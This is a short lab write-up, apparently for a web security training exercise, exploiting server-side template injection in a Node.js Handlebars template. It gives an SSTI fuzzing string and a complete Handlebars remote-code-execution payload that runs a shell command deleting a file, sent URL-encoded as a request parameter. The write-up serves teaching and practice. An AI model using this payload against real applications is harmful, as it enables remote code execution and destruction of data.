 First, let's recognize the templating framework:

![](imgs/ssti_documented_exploit.png)

We are going to fuzz this field with some SSTI characters, to provoke an error and possibly leak the templating framework:
`${{<%[%'"}}%\`

![](imgs/ssti_documented_exploit-1.png)

We are going to look for some exploits for `handlebars`, which seems to be the `nodeJS` module in charge of the templating framework:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

This is an RCE which basically explotes another vulnerbility in a constructor inside the templating framework, allowing us to create an execution context inside the templating framework.

Let's URL encode this script and send it as the request parameter:
![](imgs/ssti_documented_exploit-2.png)

![](imgs/ssti_documented_exploit-3.png)

